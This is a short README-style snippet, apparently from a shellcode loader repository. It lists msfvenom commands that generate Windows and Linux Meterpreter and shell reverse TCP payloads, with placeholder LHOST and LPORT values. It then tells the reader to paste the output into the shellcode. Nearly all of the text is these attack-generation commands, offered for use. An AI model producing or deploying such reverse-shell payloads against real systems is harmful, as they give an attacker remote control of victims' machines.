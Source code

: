 1. Create your shellcode with msfvenom

Windows Meterpreter Reverse TCP Shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST="Local IP Address" LPORT="Local Port" -f c

Windwos Reverse TCP Shellcode
msfvenom -p windows/shell_reverse_tcp LHOST="Local IP Address" LPORT="Local Port" EXITFUNC=thread -f "language" -a "arch" -b "badchar"

Linux Meterpreter Reverse TCP Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="Local IP Address" LPORT="Local Port" -f "language"

2. Paste the output in the shellcode
